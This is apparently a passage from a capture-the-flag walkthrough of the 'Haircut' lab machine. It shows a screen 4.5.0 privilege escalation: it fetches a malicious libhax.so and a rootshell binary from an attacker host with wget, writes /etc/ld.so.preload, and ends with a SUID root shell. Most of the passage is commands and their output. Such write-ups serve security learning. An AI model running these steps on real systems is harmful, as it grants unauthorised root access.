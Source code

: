
I’ll upload both of those to on Haircut:`/tmp`

    www-data@haircut:/tmp$ wget 10.10.14.15/libhax.so
    --2020-09-04 04:26:26--  http://10.10.14.15/libhax.so
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 16136 (16K) [application/octet-stream]
    Saving to: 'libhax.so'
    
    libhax.so           100%[===================>]  15.76K  --.-KB/s    in 0.02s   
    
    2020-09-04 04:26:26 (1013 KB/s) - 'libhax.so' saved [16136/16136]
    
    www-data@haircut:/tmp$ wget 10.10.14.15/rootshell
    --2020-09-04 04:26:30--  http://10.10.14.15/rootshell
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 16824 (16K) [application/octet-stream]
    Saving to: 'rootshell'
    
    rootshell           100%[===================>]  16.43K  --.-KB/s    in 0.02s   
    
    2020-09-04 04:26:30 (1.04 MB/s) - 'rootshell' saved [16824/16824]
    

Now to execute, I’ll change into , set the , and run (making sure to get the right one):`/etc``umask``screen`

    www-data@haircut:/tmp$ cd /etc/
    www-data@haircut:/etc$ umask 000
    www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
    

At this point, should have the reference to (along with some other junk):`ld.so.preload``/tmp/libhax.so`

    www-data@haircut:/etc$ cat ld.so.preload
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    
    /tmp/libhax.so
    

Now I’ll get root to run something by running :`screen -ls`

    www-data@haircut:/etc$ screen-4.5.0 -ls
    No Sockets found in /tmp/screens/S-www-data.
    

`ld.so.preload` has been cleaned up:

    www-data@haircut:/etc$ ls ld.so.preload
    ls: cannot access 'ld.so.preload': No such file or directory
    

And the is now SUID:`rootshell`

    www-data@haircut:/etc$ ls -l /tmp/rootshell 
    -rwsr-xr-x 1 root root 16824 Sep  4 04:23 /tmp/rootshell
    
